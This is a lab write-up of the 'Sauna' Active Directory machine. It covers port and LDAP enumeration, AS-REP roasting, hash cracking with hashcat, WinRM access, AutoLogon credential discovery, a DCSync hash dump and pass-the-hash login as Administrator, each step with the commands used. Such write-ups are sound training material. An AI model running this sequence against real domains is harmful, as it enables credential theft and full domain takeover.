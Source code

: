 # Sauna - Active Directory Lab

Date: 2024-11-09

---

## Scope

The target is an Active Directory environment with the hostname `sauna.htb` and IP `10.10.10.175`. I stored the target IP in a local file for reference:

```bash
echo 10.10.10.175 > target
```

Additionally, I added the following entry to the /etc/hosts file:

```bash
10.10.10.175 sauna.htb
```

---

## Enumeration

### 1. Full Port Scan

To discover all open ports on the target, I performed a full port scan:

```bash
nmap -p- -v -oN nmap/full_scan.sauna.txt 10.10.10.175
```

```
Open Ports Identified:

PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49677/tcp open  unknown
49698/tcp open  unknown
49720/tcp open  unknown
```

### 2. Service Enumeration

I conducted a detailed scan of the identified ports to gather more information:

```bash
nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49677,49698,49720 -A -T4 -v -oN nmap/tcp_ports_scan.sauna.txt -oX nmap/tcp_ports_scan.sauna.xml 10.10.10.175
```

Key Findings:

* OS: **Windows Server 2019**
* Domain: **EGOTISTICAL-BANK.LOCAL**
* Hostname: **SAUNA**

Notable Services:

* Kerberos (88/tcp)
* LDAP (389/tcp, 3268/tcp)
* HTTP (80/tcp) with IIS 10.0 hosting "Egotistical Bank"
* SMB (139/tcp, 445/tcp)
* WinRM (5985/tcp)

---

### HTTP Exploration

The HTTP service revealed a basic web page hosted on Microsoft IIS. I explored two pages:

* http://sauna.htb/single.html: Found usernames. Stored them in a file called users.
* http://sauna.htb/about.html: Identified team members and added them to the users file.

![image](https://github.com/user-attachments/assets/05d39779-7294-4709-8341-c5ba5b7c859a)

---

### LDAP Enumeration

1. General Queries

LDAP allowed **unauthenticated queries**. Running the following:

```bash
ldapsearch -H ldap://$(cat target):389/ -x -s base -x "(objectClass=*)" "*"
```

Findings:

* `rootDomainNamingContext: DC=EGOTISTICAL-BANK,DC=LOCAL`
* `Server Name: CN=SAUNA,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL`

2. Password Policy

Queried password policy with:

```bash
ldapsearch -H ldap://$(cat target):389/ -x -b 'DC=EGOTISTICAL-BANK,DC=LOCAL' "(objectClass=domain)" | grep Pwd
```

Result: Minimum password length is 7 characters.

---

### SMB Enumeration

SMB required authentication and could not be enumerated anonymously.

---

## Exploitation

### 1. User Enumeration and AS-REP Roasting

Using usernames from earlier, I created a custom username wordlist ([GitHub - CustListler](https://github.com/spread0942/CustListler). Then, I used `GetNPUsers.py` to identify accounts vulnerable to AS-REP Roasting:

```bash
GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile users -format hashcat -outputfile ASREProastables.txt -dc-ip 10.10.10.175
```

Result: Found an **AS-REP hash** for user `fSmith`.

### 2. Cracking the Hash

Cracked the AS-REP hash using hashcat:

```bash
hashcat -m 18200 ASREProastables.txt /usr/share/wordlists/rockyou.txt
```

### 3. Access via WinRM

Using the cracked credentials, I accessed the machine with evil-winrm:

```bash
evil-winrm -i 10.10.10.175 -u "fSmith" -p "****"
```

Outcome: Retrieved the user flag.

---

## Privilege Escalation

### 1. BloodHound Enumeration

I used bloodhound-python for privilege escalation analysis:

```bash
mkdir loots && cd loots
bloodhound-python -d EGOTISTICAL-BANK.LOCAL -u "fSmith" -p "****" -ns 10.10.10.175 -c all
```

Findings: No significant paths for privilege escalation.

### 2. AutoLogon Credentials

Ran `winPEAS` and found AutoLogon credentials:

```
DefaultDomainName: EGOTISTICALBANK
DefaultUserName: EGOTISTICALBANK\svc_loanmgr
DefaultPassword: **********************
```

### 3. DCSync Attack

I marked as owned `svc_loanmgr` user on BloodHound and identified the possibility of a **DCSync attack**. 

![image](https://github.com/user-attachments/assets/98f799be-9037-41df-9160-aed2d7587659)

Using `secretsdump.py`, I dumped NTDS hashes:

```bash
secretsdump.py EGOTISTICAL-BANK/svc_loanmgr:"**********************"@10.10.10.175
```

Extracted Hashes:

```
Administrator NTLM Hash: aad3b.......:82345..........bdf86c7f98e
```

Using crackmapexec I confirmed the hash:

![image](https://github.com/user-attachments/assets/882612c7-4890-43dc-85f3-07cbda3bbd35)


## 4. Final Access

Used the administrator hash to log in via evil-winrm:

```bash
evil-winrm -i 10.10.10.175 -u "Administrator" -H "aad3b.......:82345..........bdf86c7f98e"
```

Outcome: Retrieved the root flag.

---

## Summary

1. Enumerated services and discovered users via HTTP and LDAP.
2. Exploited Kerberos AS-REP Roasting to gain initial access.
3. Used winPEAS to find AutoLogon credentials for privilege escalation.
4. Conducted a DCSync attack to dump NTDS hashes.
5. Logged in as the Administrator and retrieved both user and root flags.

---



